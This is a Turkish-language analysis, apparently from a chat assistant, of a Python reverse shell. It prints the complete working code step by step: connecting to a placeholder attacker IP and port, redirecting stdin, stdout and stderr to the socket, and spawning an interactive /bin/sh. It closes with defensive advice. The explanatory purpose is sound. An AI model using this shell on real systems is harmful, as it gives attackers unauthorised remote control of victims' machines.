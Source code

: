(Kötü niyetli kullanılabilecek)Bir ters kabuk (reverse shell) bağlantısı kurmayı hedeflemektedir. İşte adım adım kodun ne yaptığını açıklayan bir rapor: 

1. Giriş
Kod, hedef bilgisayarda çalıştırıldığında, saldırganın kontrol ettiği bir makineye bağlantı kurarak bir komut kabuğu (shell) açar ve saldırganın bu kabuk üzerinden hedef bilgisayarı kontrol etmesine olanak tanır. Bu tür saldırılar genellikle yetkisiz erişim sağlamak ve sistemde kötü niyetli komutlar çalıştırmak için kullanılır.

2. Kod Analizi
2.1. Modül İçe Aktarma
python
Kodu kopyala
import socket, subprocess, os
socket: Ağ bağlantıları kurmak için kullanılır.
subprocess: Yeni süreçler oluşturmak ve komutlar çalıştırmak için kullanılır.
os: İşletim sistemi ile ilgili işlevleri yerine getirmek için kullanılır.
2.2. Soket Oluşturma
python
Kodu kopyala
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.AF_INET: IPv4 adres ailesini kullanır.
socket.SOCK_STREAM: TCP bağlantı türünü kullanır.
2.3. Bağlantı Kurma
python
Kodu kopyala
s.connect(("SALDIRI_HEDEF_IP", SALDIRI_HEDEF_PORT))
s.connect(): Saldırganın IP adresi (SALDIRI_HEDEF_IP) ve port numarası (SALDIRI_HEDEF_PORT) belirtilerek saldırganın kontrolündeki makineye bağlanılır.
2.4. Dosya Tanıtıcılarının Yönlendirilmesi
python
Kodu kopyala
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.dup2(): Hedef makinedeki standart giriş (stdin), standart çıkış (stdout) ve hata çıkışı (stderr) dosya tanıtıcıları, soket dosya tanıtıcısına (s.fileno()) yönlendirilir. Bu, saldırganın komutları doğrudan terminal üzerinden yürütmesine olanak tanır.
2.5. Kabuk Başlatma
python
Kodu kopyala
p = subprocess.call(["/bin/sh", "-i"])
subprocess.call(): Yeni bir süreç başlatarak /bin/sh kabuğunu interaktif modda (-i) çalıştırır.
3. Özet
Amaç: Hedef bilgisayarda çalışan bu betik, saldırganın belirlediği bir IP ve port üzerinden bağlantı kurar ve hedef bilgisayarda bir komut kabuğu açar.
Fonksiyonellik: Saldırgan, bu bağlantı üzerinden hedef bilgisayara komutlar gönderebilir ve bu komutların çıktısını alabilir.
Güvenlik Riski: Bu tür ters kabuk bağlantıları, yetkisiz erişim ve kötü niyetli etkinlikler için kullanıldığından, ciddi bir güvenlik riski oluşturur. Bu nedenle, sistemlerin bu tür saldırılara karşı korunması ve şüpheli etkinliklerin izlenmesi önemlidir.
4. Sonuç
Bu tür saldırılar, sistem güvenliği açısından ciddi tehditler oluşturur ve bunlara karşı korunmak için güvenlik duvarları, izinsiz giriş tespit sistemleri (IDS), ve düzenli güvenlik taramaları gibi önlemler alınmalıdır.

